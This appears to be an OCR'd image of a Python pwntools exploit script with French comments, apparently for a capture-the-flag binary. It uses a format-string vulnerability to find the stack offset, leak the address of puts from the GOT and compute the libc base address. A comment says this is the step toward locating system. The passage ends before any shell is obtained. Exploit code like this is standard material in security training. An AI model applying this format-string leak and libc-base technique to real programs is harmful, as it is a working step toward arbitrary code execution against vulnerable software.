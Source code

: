 ```python
def exec_fmt(payload):                                                                                                 
    p.readuntil(b"Selection:")                                                                                         
    p.sendline(b"1")                                                                                                   
    p.readuntil(b"Enter first number:")                                                                                
    p.sendline(b"1")                                                                                                   
    p.readuntil("Enter second number:")                                                                                
    p.sendline(payload)                                                                                                
    buff = p.recvline()                                                                                                
    return buff                                                                                                        
                                                                                                                       
                                                                                                                       
autofmt = FmtStr(exec_fmt)                                                                                             
offset = autofmt.offset                                                                                                
info("offset is at dword %d", offset)                                                                                  
                                                                                                                       
# C'est parti pour le leak de l'adresse réelle de puts contenu dans la GOT                                             
p.readuntil(b"Selection:")                                                                                             
p.sendline(b"1")                                                                                                       
p.readuntil(b"Enter first number:")                                                                                    
p.sendline(b"1")                                                                                                       
p.readuntil("Enter second number:")                                                                                    
                                                                                                                       
payload = f'%{offset+1}$s'.encode()                                                                                    
payload += p32(elf.got.puts)                                                                                           
p.sendline(payload)                                                                                                    
                                                                                                                       
# Dans la réponse on obtient l'adresse de puts mappée en mémoire (libc)                                                
buff = p.readuntil(b"Selection:")                                                                                      
puts_libc_addr = unpack(buff.split(b"Error details: ")[1][:4])

libc = elf.libc                                                                                                        
info("puts = %#x", puts_libc_addr)                                                                                     
# on calcule l'adresse de base de la libc et on écrase celle sur l'objet libc                                          
# de pwntools qui permettra d'obtenir directement celle de système ensuite                                             
libc.address = puts_libc_addr - libc.symbols.puts                                                                      
```